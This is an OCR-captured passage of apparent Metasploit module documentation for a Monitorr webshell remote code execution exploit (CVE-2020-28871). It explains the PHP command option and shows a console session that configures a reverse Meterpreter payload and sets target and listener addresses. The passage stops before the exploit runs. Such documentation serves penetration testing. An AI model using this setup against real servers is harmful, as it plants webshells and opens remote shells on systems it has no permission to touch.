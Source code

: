 ### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - PHP Meterpreter session
```
msf > use exploit/multi/http/monitorr_webshell_rce_cve_2020_28871
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > options
Module options (exploit/multi/http/monitorr_webshell_rce_cve_2020_28871):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.
   When TARGET is not 0:
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)
   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  1981             yes       The local port to listen on.
Payload options (php/meterpreter/reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   PHP
View the full module info with the info, or info -d command.
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set rhosts 192.168.201.34
rhosts => 192.168.201.34
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set lhost 192.168.201.10
lhost => 192.168.201.10
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set lport 4444
```